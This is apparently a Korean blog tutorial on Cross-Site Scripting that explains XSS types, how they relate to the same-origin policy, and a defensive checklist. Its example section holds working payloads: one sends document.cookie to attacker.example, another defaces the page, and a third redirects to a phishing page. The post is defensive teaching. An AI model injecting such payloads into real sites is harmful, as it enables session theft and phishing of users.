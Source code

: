 ```yaml
---
title: "[Infosec] Cross-Site Scripting (XSS) 완전 정리"
date: 2025-09-10 20:10:00 +0900
categories: [보안, Web]   # 카테고리는 여러 계층도 가능 [상위, 하위]
tags: [웹해킹, XSS]          # 해시태그처럼 글 묶기
description: "인증정보 탈취 작전"
author: "송지민"
toc: true
---
```


# 가장 단순하지만 여전히 강력한 웹 공격 수단

---

> 이 글은 **보안 학습/방어 목적**입니다. 실습은 **본인 로컬/테스트 환경**에서만 하세요.

## XSS란?

**XSS(Cross-Site Scripting)** 는 웹 페이지에 악성 스크립트(보통 JavaScript)가 주입되어 **피해자의 브라우저에서 실행**되는 취약점이다.  
주로 “사용자가 입력한 값을 다시 출력”하는 기능에서 발생한다. (예: 로그인 후 “안녕하세요, 00님”)  

**SOP(Same-Origin Policy)** 때문에 임의의 출처의 민감한 데이터는 바로 읽기 어렵지만,  
스크립트가 **피해 사이트의 Origin 권한**으로 실행되기 때문에 **그 Origin의 권한 범위 안에서는 강력**하다.  
(예: 해당 사이트의 쿠키 접근, DOM 변조, 사용자의 클릭 유도 등)

---

## 언제 생기나? (간단 원리)

1. **입력(Input)**: 댓글/검색어/프로필 등 사용자가 넣는 값  
2. **처리(Process)**: 서버 또는 클라이언트(JS)에서 값 가공  
3. **출력(Output)**: HTML/속성/URL/스크립트 등 **맥락(Context)** 에 그대로 넣어 렌더링  
4. **실행(Execute)**: 브라우저가 그 값을 **코드로 해석**하면 XSS 발생

> 특히 **출력 맥락**(HTML 본문, 속성, JavaScript literal, URL, 스타일 등)에 맞는 **인코딩**이 안 되면 취약해진다.

---

## XSS 종류

| 종류 | 설명 |
|---|---|
| **Stored XSS** | 악성 스크립트가 **서버에 저장**되고, 다른 사용자가 페이지를 열 때 **응답에 포함**되어 실행됨. (예: 댓글/게시글에 삽입) |
| **Reflected XSS** | 악성 입력이 **요청 파라미터**에 들어오고, 서버가 그대로 **응답에 반사**해서 실행됨. (예: 검색 결과 페이지) |
| **DOM-based XSS** | 서버 응답이 아니라, **브라우저 내 JS가 DOM을 조작**하면서 발생. (예: `location.hash` 등을 `innerHTML`에 삽입) |
| **Universal XSS(UXSS)** | **브라우저/플러그인 자체**의 취약점으로 SOP를 우회해 스크립트가 실행되는 케이스. (앱·엔진 취약점 이슈) |

---

## 예제 코드 (학습용 / 안전 도메인 사용)

> 예제의 외부 주소는 **테스트 전용 도메인**으로 바꿨다: `https://attacker.example`  
> (※ `.example` TLD는 문서/예시에 쓰라고 예약된 도메인)

### 1) 쿠키/세션 탈취 시도 (학습용)
```html
<script>
// 데모: 현재 페이지의 쿠키 확인
alert(document.cookie);

// 단순 exfiltration 패턴 (이미지 요청으로 전송)
new Image().src = "https://attacker.example/collect?cookie=" + encodeURIComponent(document.cookie);
</script>
```
> 방어 팁: **HttpOnly 쿠키**면 `document.cookie`로 읽히지 않는다. `Secure`, `SameSite`도 함께 설정.

### 2) 페이지 변조
```html
<script>
// DOM 변조 (예: 내용 바꾸기)
document.write("Hacked by Demo!"); // 실제 서비스에선 미사용 권장
</script>
```
> 방어 팁: `document.write`, `innerHTML` 대신 **`textContent` / 안전한 템플릿** 사용.

### 3) 위치 이동(피싱 유도)
```html
<script>
// 피싱 페이지로 이동 (새 창 열기 포함)
location.href = "https://attacker.example/phishing";
window.open("https://attacker.example/");
</script>
```
> 방어 팁: 외부 링크는 **rel="noopener noreferrer"**, 사용자 확인(예: 중간 경고), URL 화이트리스트 등.

---

## SOP와 XSS의 관계, 그리고 왜 위험한가

- **SOP**는 “다른 출처의 응답 **읽기**”를 막는다.  
- 그러나 XSS는 **현재 페이지의 출처 권한**으로 실행되기 때문에, 그 **출처의 쿠키/DOM/요청**에는 접근 가능하다.  
- 그래서 공격자는 `https://attacker.example`로 **요청을 보내는 방식**(이미지/fetch 등)으로 데이터를 외부로 **유출**한다.

---

## 방어 전략 (현업 체크리스트)

### 1) 출력 인코딩(Output Encoding)
- 맥락별로 맞춤 인코딩:  
  - **HTML 본문** → HTML 엔코딩  
  - **HTML 속성** → 속성 엔코딩  
  - **URL/쿼리** → URL 엔코딩  
  - **JS literal** → JS 문자열 이스케이프  
- 프레임워크의 **기본 자동 이스케이프**를 끄지 말 것.

### 2) 입력 검증(Input Validation)
- 허용 목록(Whitelist) 기준으로 길이/문자/패턴 제한
- HTML을 허용해야 한다면 **DOMPurify** 같은 **화이트리스트 기반 Sanitizer** 사용

### 3) 안전한 DOM API 사용
- `innerHTML`, `document.write` 지양 → **`textContent`, `setAttribute`** 등 사용
- 사용자 입력을 **스크립트/이벤트 핸들러 속성**에 절대 직접 연결하지 말 것

### 4) 쿠키 보안
- **HttpOnly**: JS에서 쿠키 접근 차단  
- **Secure**: HTTPS에서만 전송  
- **SameSite**: 크로스 사이트 쿠키 전송 제한 (CSRF/XSS 조합 공격 완화)

### 5) **CSP(Content Security Policy)**
- 기본 정책: `script-src 'self'` + **nonce/sha256 기반** 인라인 허용  
- 단계적 도입: `Content-Security-Policy-Report-Only`로 **로그부터** 수집  
- **Trusted Types**(지원 브라우저): DOM XSS를 구조적으로 차단

### 6) 기타
- 템플릿 엔진의 **자동 escaping** 유지  
- 서드파티 스크립트 최소화/무결성(`integrity` 속성)  
- SRI, Subresource Integrity 적용  
- 린트/테스트(정적 분석, 동적 스캐너)로 **릴리즈 전 자동 점검**

---

## 요약

- XSS는 “**사용자 입력이 코드로 해석**되는 순간” 발생한다.  
- **Stored / Reflected / DOM-based / UXSS** 네 가지 관점으로 이해할 것.  
- 방어의 핵심은 **맥락별 인코딩**, **안전한 DOM 사용**, **CSP + HttpOnly/SameSite 쿠키**, **입력 검증/정화**다.

> 다음 글에서는 **실제 취약 코드 → 안전 코드**로 리팩터링하는 Before/After 예시를 다뤄보자.
